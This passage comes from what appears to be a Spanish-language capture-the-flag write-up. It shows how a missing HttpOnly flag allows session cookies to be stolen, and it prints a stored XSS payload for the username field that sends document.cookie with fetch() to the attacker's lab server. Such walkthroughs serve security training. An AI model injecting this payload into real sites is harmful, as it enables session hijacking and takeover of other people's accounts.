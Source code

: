 Con esta información en mente, el siguiente paso será intentar determinar si la opción **HttpOnly** está configurada como `false` en las cookies. Si este es el caso, podríamos intentar realizar un **cookie hijacking** de la cookie del usuario **axel**, ya que parece ser la persona que revisa el formulario. De ser así, podríamos capturar su sesión y obtener acceso a su cuenta.

Nuestro objetivo será inyectar código JavaScript malicioso en el campo `username` del formulario. De este modo, cuando un usuario, posiblemente **axel**, vea nuestro formulario, el código inyectado se ejecutará en su navegador. Si la cookie no está marcada como **HttpOnly**, podremos interceptarla y enviarla a un servidor externo, permitiéndonos robar la sesión del usuario.

Este sería el siguiente paso en nuestra explotación del sistema.

### Performing Cookie Hijacking

Verificaremos si el atributo de `HttpOnly` se encuentra en `False`. Comprobamos que el sitio web dispone de esta mala configuración, lo cual la hace susceptible al `Cookie Hijacking` (robo de cookies de sesión).

<figure><img src="../../.gitbook/assets/imagen (285).png" alt=""><figcaption></figcaption></figure>

El siguiente objetivo será inyectar un payload malicioso en `JavaScript`para robar la cookie de sesión del usuario. Nos registraremos con el siguiente script que enviará la cookie a nuestro servidor web de atacante que abriremos más adelante.

```javascript
<script>fetch("http://10.10.16.5/?value=" + document.cookie);</script> 
```

<figure><img src="../../.gitbook/assets/imagen (286).png" alt="" width="423"><figcaption></figcaption></figure>
